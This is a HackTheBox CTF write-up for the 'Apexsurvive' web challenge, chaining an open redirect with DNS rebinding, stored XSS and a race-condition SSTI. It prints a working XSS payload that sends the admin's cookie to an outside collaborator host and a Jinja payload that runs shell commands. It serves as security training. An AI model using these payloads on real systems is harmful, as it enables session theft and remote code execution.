

+++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = false
categories = ['HackTheBox', 'Web', 'Insane']
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to *test@email.htb*.

We create a user with the email *test@email.htb* and confirm the registration by visiting the link from an email.

## DNS Rebinding to Activate an Internal User
Upon further code inspection, we found out that users who sign up with an email hosted at *apexsurvive.htb* will be marked as internal users.

There's an */external* API endpoint that can be used for an open redirect.

The emails are served by Mailhog running on port 9000 and can be internally retrieved by using the */api/v2/messages* endpoint.

We create a user *asdf@apexsurvive.htb*.

We log in and request a verification email. It won't appear in emails on the website.

We'll use the */external* endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from Mailhog running on port 9000 and get the confirmation email for the internal user. To do this, we'll set up an EC2 instance with a public IP address and then add a DNS NS record for it (keep in mind the dot at the end):

We have to allow incoming traffic from ports UDP 53 (for DNS) and TCP 9000 (for the HTTP server) at minimum. We configure the security group of our EC2 instance as following.

On the instance, we'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from EC2 public IP address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an HTTP server on it serving index.html that keeps fetching /api/v2/messages for Mailhog emails and then sends them back to us. **Remember it has to be on the same origin (port 9000).**

    sudo python3 -m http.server 9000

*index.html* served by the HTTP server:

    <html>
    <body>
    
    </body>
    </html>

The script keeps fetching *http://dynamic.mywebsite.xyz:9000/api/v2/messages* in short intervals. which is on the same origin. After a while our DNS rebinder should switch from the EC2 IP address to localhost. Then, the script will successfully fetch the emails and send them back to us in base64.

We log in as *test@email.htb* and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public IP.

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after the one with query parameter *start=start* one contains base64 encoded emails from Mailhog API. We decode them and get the confirmation link for the internal user.

## Stored XSS to Steal the Session Cookie From the Admin
As an internal user, we now can add products. In */application/templates/product.html* we notice that the *product.note* (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

We double-check we escaped JS backticks after adding the product:

After we create it, we make the admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

## Leveraging a Race Condition for SSTI Leading to RCE
As an admin, we now can add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a PDF,
- we can save the file anywhere by path traversal using “..” in the filename,
- the PDF check takes the temporary file from the file system, not directly from the request.

As a result, **there’s a race condition between saving the temp file and checking that it’s a PDF.**

We prepare 2 files:
1) a small PDF,
2) a Jinja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of PDF/Jinja template requests in the group. We watch out for *message: Contract added* in a response to a Jinja template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under */static/images/flag.txt*.

## References
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine